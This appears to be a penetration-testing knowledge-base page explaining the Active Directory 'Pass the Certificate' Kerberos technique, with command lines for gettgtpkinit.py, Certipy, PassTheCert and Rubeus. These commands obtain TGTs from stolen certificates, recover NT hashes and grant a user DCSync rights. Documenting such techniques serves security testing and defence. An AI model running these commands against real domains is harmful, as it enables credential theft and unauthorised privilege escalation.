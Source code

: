 ```yaml
---
authors: PfiatDe, ShutdownRepo, sckdev
---
```


# Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../adcs/index) and [UnPAC-the-hash attacks](unpac-the-hash.md).

> [!TIP]
> Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.
> 
> The "certificate + private key" pair is usually used in the following manner
> 
> * PEM certificate + PEM private key
> * PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.


```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```


Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.


```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```


Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.


```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```


The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

> [!TIP]
> When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](../credentials/dumping/dcsync.md) or change password for a specific user.

```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
```


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```powershell
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> [!TIP]
> PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.
> 
> ```bash
> openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
> ```

> [!TIP]
> Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.
> 
> ```bash
> openssl rsa -inform DER -in key.key -out key-pem.key
> openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
> openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
> ```
>
> > [!TIP]
> To generate a b64 for Rubeus:
> 
> ```bash
> $pfx_cert = get-content 'c:\certificate.pfx' -Encoding Byte
> $base64 = [System.Convert]::ToBase64String($pfx_cert)
> $base64
> ```

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.

:::

